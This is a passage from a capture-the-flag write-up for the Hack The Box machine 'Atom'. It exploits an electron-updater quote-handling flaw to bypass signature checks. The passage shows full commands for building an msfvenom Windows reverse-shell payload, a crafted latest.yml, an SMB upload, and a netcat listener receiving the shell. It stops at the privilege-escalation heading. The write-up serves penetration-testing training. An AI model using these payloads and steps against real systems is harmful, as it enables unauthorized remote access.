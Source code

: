 Notice how the '${tempUpdateFile}' is declared with two single quotes. if you get a one single quote in your malicious exe (P'ayload.exe) than the program will treat it as the end of the single quote. So your `P'ayload.exe` will translate to `ayload.exe` on the other side and will execute your exe.

###### Preparing_Payload
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Atom.htb]
└─# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.4 LPORT=4444 -f exe -o payload.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: payload.exe
```
###### Preparing_yml_file
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Atom.htb]
└─# cat latest.yml                 
version: 2.2.2
files:
  - url: p'ayload.exe
    sha512: EegqVXNMNrsuSuQo/TI3OSo2GkjmX9yW80VtWp3mbXtgkiz45sdYj7Q9WfXjP6YiUEx0MEVZnEkNViJwzAJO9w==
    size: 7168
path: p'ayload.exe
sha512: EegqVXNMNrsuSuQo/TI3OSo2GkjmX9yW80VtWp3mbXtgkiz45sdYj7Q9WfXjP6YiUEx0MEVZnEkNViJwzAJO9w==
releaseDate: '2024-04-23T11:17:02.642Z'
```
###### Getting_the_yml_and_exe_on_the_share
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Atom.htb]
└─# smbclient -U '' //10.10.10.237/Software_Updates
Password for [WORKGROUP\]:
Try "help" to get a list of possible commands.
smb: \> cd client1
smb: \client1\> put latest.yml 
putting file latest.yml as \client1\latest.yml (3.1 kb/s) (average 3.1 kb/s)
smb: \client1\> put payload.exe p'ayload.exe
putting file payload.exe as \client1\p'ayload.exe (72.2 kb/s) (average 37.3 kb/s)
smb: \client1\> dir
  .                                   D        0  Sun Dec  1 23:04:11 2024
  ..                                  D        0  Sun Dec  1 23:04:11 2024
  latest.yml                          A      316  Sun Dec  1 23:04:04 2024
  p'ayload.exe                        A     7168  Sun Dec  1 23:04:11 2024

                4413951 blocks of size 4096. 1371339 blocks available
smb: \client1\> exit
```
###### Getting_Reverse_Shell
```
┌──(ringbuffer㉿kali)-[~/Downloads]
└─$ sudo nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.237] 50303
Microsoft Windows [Version 10.0.19042.906]
(c) Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
atom\jason
```
Get your user flag.
### Privilege_Escalation
